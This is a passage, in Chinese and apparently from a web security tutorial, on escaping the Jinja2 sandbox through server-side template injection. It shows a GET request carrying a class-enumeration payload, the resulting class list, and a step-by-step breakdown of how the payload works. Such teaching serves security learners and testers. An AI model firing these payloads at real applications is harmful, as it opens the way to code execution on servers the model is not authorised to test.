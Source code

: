 ```
jinja2.exceptions.UndefinedError: '__import__' is undefined
```

这是因为你无法在 Jinja 模板中导入模块。大多数模板引擎会阻止使用危险功能，如`import`，或者会设置一个允许列表，只允许用户在模板中执行某些操作。要逃避这些 Jinja2 的限制，你需要利用 Python 沙盒逃逸技术。

### 通过使用 Python 内置函数逃脱沙盒

其中一种技术是使用 Python 的内置函数。当你无法导入某些有用的模块或根本无法导入任何模块时，你需要调查 Python 默认已导入的函数。许多这些内置函数作为 Python 的`object`类的一部分进行集成，这意味着当我们想调用这些函数时，我们可以创建一个对象并将该函数作为对象的方法进行调用。例如，以下 GET 请求包含列出可用 Python 类的 Python 代码：

```
GET /display_name?name="{{[].__class__.__bases__[0].__subclasses__()}}"
Host: example.com
```

当你将此有效载荷提交到模板注入端点时，应该会看到如下类的列表：

```
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>...]
```

为了更好地理解这里发生了什么，让我们稍微分析一下这个有效载荷：

```
[].__class__.__bases__[0].__subclasses__()
```

它首先创建一个空列表并调用其`__class__`属性，该属性引用该实例所属的类，即`list`：

```
[].__class__
```

然后你可以使用`__bases__`属性来引用`list`类的基类：

```
[].__class__.__bases__
```

该属性将返回一个元组（在 Python 中就是一个有序列表），该元组包含`list`类的所有基类。*基类*是当前类构建自的类；`list`类有一个名为`object`的基类。接下来，我们需要通过引用元组中的第一个项来访问`object`类：

```
[].__class__.__bases__[0]
```

最后，我们使用`__subclasses__()`来引用该类的所有子类：

```
[].__class__.__bases__[0].__subclasses__()
```
